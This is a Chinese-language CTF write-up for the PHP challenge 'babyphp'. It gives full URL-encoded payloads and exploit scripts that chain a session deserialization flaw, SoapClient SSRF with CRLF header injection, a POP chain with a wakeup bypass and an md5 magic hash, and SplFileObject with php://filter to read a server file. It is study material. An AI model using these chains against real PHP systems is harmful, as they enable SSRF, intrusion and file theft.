 # babyphp

> 本题思路是通过session反序列化漏洞将PHP原生类SoapClient写入session，`call_user_func(array(reset($_SESSION), $this->a));` 反序列化触发SoapClient的call方法，通过SoapClient去ssrf访问flag.php绕过`($_SERVER["REMOTE_ADDR"]==="127.0.0.1"`，`new $_GET['a']($_GET['b'])`的利用是通过原生类DirectoryIterator得到flag文件名及SplFileObject配合伪协议读取flag文件内容。



1、首先写入session

GET:

```
?baby=session.serialize_handler&d0g3=php_serialize
```

POST:

（PHPSESSID=b0e42afmolqd3dp3pqsidb38s5）

读文件名payload：

```
sess=|O%3A10%3A%22SoapClient%22%3A5%3A%7Bs%3A3%3A%22uri%22%3Bs%3A16%3A%22http%3A%2F%2F127.0.0.1%22%3Bs%3A8%3A%22location%22%3Bs%3A58%3A%22http%3A%2F%2F127.0.0.1%2Fflag.php%3Fa%3DDirectoryIterator%26b%3Dglob%3A%2F%2F%2Ff%2A%22%3Bs%3A15%3A%22_stream_context%22%3Bi%3A0%3Bs%3A11%3A%22_user_agent%22%3Bs%3A50%3A%22test%0D%0ACookie%3A+PHPSESSID%3Db0e42afmolqd3dp3pqsidb38s5%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D
```

读文件内容payload：

```
sess=|O%3A10%3A%22SoapClient%22%3A5%3A%7Bs%3A3%3A%22uri%22%3Bs%3A16%3A%22http%3A%2F%2F127.0.0.1%22%3Bs%3A8%3A%22location%22%3Bs%3A104%3A%22http%3A%2F%2F127.0.0.1%2Fflag.php%3Fa%3DSplFileObject%26b%3Dphp%3A%2F%2Ffilter%2Fconvert.base64-encode%2Fresource%3D%2Ff1111llllllaagg%22%3Bs%3A15%3A%22_stream_context%22%3Bi%3A0%3Bs%3A11%3A%22_user_agent%22%3Bs%3A50%3A%22test%0D%0ACookie%3A+PHPSESSID%3Db0e42afmolqd3dp3pqsidb38s5%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D
```

exp1.php：

```php
<?php
/*读文件名*/
$target = "http://127.0.0.1/flag.php?a=DirectoryIterator&b=glob:///f*";
/*读文件内容*/
//$target = "http://127.0.0.1/flag.php?a=SplFileObject&b=php://filter/convert.base64-encode/resource=/f1111llllllaagg";

$attack = new SoapClient(null,array(
    'location'=>$target,
    'uri'=>'http://127.0.0.1',
    'user_agent'=>"test\r\nCookie: PHPSESSID=uqhamshlif0ddaa3tep1tbu1d3"));
$payload = urlencode(serialize($attack));
echo '|'.$payload;
```



2、然后触发反序列化

POST:

```
pop=O:1:"B":3:{s:1:"a";s:1:"1";s:1:"b";R:2;s:1:"k";O:1:"C":2:{s:1:"a";s:3:"aaa";s:1:"c";O:1:"A":2:{s:1:"a";s:11:"0e215962017";s:1:"b";O:1:"C":2:{s:1:"a";s:3:"aaa";s:1:"c";N;};}}}
```

exp2.php:

考察变量覆盖、高版本wakeup绕过、md5。

```php
<?php
class A
{
    public $a;
    public $b;
    public function __construct()
    {
        $this->a = "0e215962017";
    }
}
class B
{
    public $a;
    public $b;
    public $k;
    public function __construct()
    {
        $this->a = "1";
        $this->b = &$this->a;
    }
}
class C
{
    public $a;
    public $c;
    public function __construct()
    {
        $this->a = "phpinfo";
    }
}
$a = new B;
$a->k = new C();
$a->k->c = new A();
$a->k->c->b = new C();

var_dump($a->b);
echo PHP_EOL;
echo serialize($a);

//phpinfo: O:1:"B":3:{s:1:"a";s:1:"1";s:1:"b";R:2;s:1:"k";O:1:"C":2:{s:1:"a";s:7:"phpinfo";s:1:"c";O:1:"A":2:{s:1:"a";s:11:"0e215962017";s:1:"b";O:1:"C":2:{s:1:"a";s:7:"phpinfo";s:1:"c";N;};}}}
//payload: O:1:"B":3:{s:1:"a";s:1:"1";s:1:"b";R:2;s:1:"k";O:1:"C":2:{s:1:"a";s:3:"aaa";s:1:"c";O:1:"A":2:{s:1:"a";s:11:"0e215962017";s:1:"b";O:1:"C":2:{s:1:"a";s:3:"aaa";s:1:"c";N;};}}}
```



最后访问一下index.php打印`$_SESSION`就可以看到

```
["F1AG"]=> string(52) "PwoKCiBkMGcze2I0YllfUGg5XzFzX1Yzcnl+X2VAc1khISF9Cg==" }
```

base64解密即可。

